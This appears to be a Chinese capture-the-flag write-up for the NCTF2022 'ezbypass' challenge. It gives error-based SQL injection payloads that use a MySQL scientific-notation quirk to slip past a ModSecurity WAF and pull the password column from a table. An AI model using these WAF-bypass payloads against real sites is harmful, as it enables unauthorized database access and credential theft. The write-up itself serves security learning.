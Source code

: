 # [NCTF2022]ezbypass
![](<./img/Pasted image 20221204150847.png>)

---
首页长这样

![](<./img/Pasted image 20221204150928.png>)

有WAF

![](<./img/Pasted image 20221204151030.png>)
```php
/sql.php?id=1 and gtid_subset(version(),1);
```
通过报错注入能查询到version

![](<./img/Pasted image 20221204151225.png>)

利用`mysql 5.7`之前的科学计数的记号问题通过`1.e`实现`ModSecurity`的绕过
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(password))from(info)))))
```
![](<./img/Pasted image 20221204172550.png>)

再输出后半段
```php
/sql.php?id=1^1.e(extractvalue(1,concat(0x5c,(select(group_concat(right(password,30)))from(info)))))
```

![](<./img/Pasted image 20221204172727.png>)

#Web #PHP #SQL注入 #modsecurity #报错注入 